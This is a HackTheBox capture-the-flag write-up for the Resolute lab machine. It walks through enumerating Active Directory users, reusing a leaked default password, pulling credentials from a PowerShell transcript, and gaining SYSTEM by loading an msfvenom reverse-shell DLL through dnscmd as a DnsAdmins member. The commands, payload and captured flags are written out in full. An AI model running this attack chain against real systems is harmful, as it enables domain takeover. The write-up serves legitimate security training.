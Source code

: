 ```yaml
---
layout: post
title: HackTheBox Resolute (10.10.10.169) Writeup
description: >
  Hackthebox Resolute Writeup
image: /assets/img/resolute.png
---
```


**Nmap:**
```
Nmap scan report for 10.10.10.169
Host is up (0.024s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-06-01 04:35:43Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local,
Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local,
Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49709/tcp open  msrpc        Microsoft Windows RPC
61299/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit
the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=6/1%Time=5ED483B5%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h28m16s, deviation: 4h02m29s, median: 8m15s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2020-05-31T21:36:33-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-06-01T04:36:37
|_  start_date: 2020-06-01T00:12:07

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 212.89 seconds
```
Using `enum4linux` I find a username an password of `marko;Welcome123!`.
```
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak       Desc: Account created. Password set to Welcome123!
```
If one didnt know about `enum4linux` then a quick bash script could have done the trick as well. First I get a list of users.
```
root@1e98a617cca8:~/Resolute# rpcclient -U "" 10.10.10.169
Enter WORKGROUP\'s password:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```
Then I separate the rid numbers into another file. I will use a script to query each rid number which is the same as querying each user.
```
root@1e98a617cca8:~/Resolute# while IFS= read -r line; do rpcclient -c "queryuser $line" -U "" 10.10.10.169 -N |  grep -e "User Name" -e "Description";done < rids.txt
        User Name   :   Administrator
        Description :   Built-in account for administering the computer/domain
        User Name   :   Guest
        Description :   Built-in account for guest access to the computer/domain
        User Name   :   krbtgt
        Description :   Key Distribution Center Service Account
        User Name   :   DefaultAccount
        Description :   A user account managed by the system.
        User Name   :   ryan
        Description :
        User Name   :   marko
        Description :   Account created. Password set to Welcome123!
```
Using the credentials I try to log in using `evil-winrm` but I am unsuccessful. Trying the other usernames I am successful with logging in as the user Melanie.
```
root@1e98a617cca8:~/Resolute# evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents>
```
From here I can read the `user.txt` flag
```
*Evil-WinRM* PS C:\Users\melanie\Desktop> type user.txt
1c3be45fcfe249796ccbee8d3a978540
```
Doing some enumeration I find a interesting folding in the C: Drive called PSTranscripts. Withing that folder there is a file called `PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt` and inside that file there are some credentials for the user `ryan`
```
ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```
I use `evil-winrm` to log in as ryan. Running `whoami /all` will show that ryan is a member of the DnsAmins group. This can be exploited by generating a malicious dll with msfvenom.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=9999 --platform=windows -f dll > dns.dll
```
Now i'll tell the system to use my dll by using the `dnscmd` command
```
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd resolute /config /serverlevelplugindll \\10.10.14.23\share\dns.dll
Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```
Then I stop/start the service
```
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530

*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2508
        FLAGS              :
```
Checking my netcat listener I now have a shell as `nt authority/system`
```
root@1e98a617cca8:~# nc -nlvp 9999
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.169.
Ncat: Connection from 10.10.10.169:51786.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
From here I can read the `root.txt` flag
```
*Evil-WinRM* PS C:\> type Users\Administrator\Desktop\root.txt
d13b4d05b90f8ff45667d75e42586c72
```
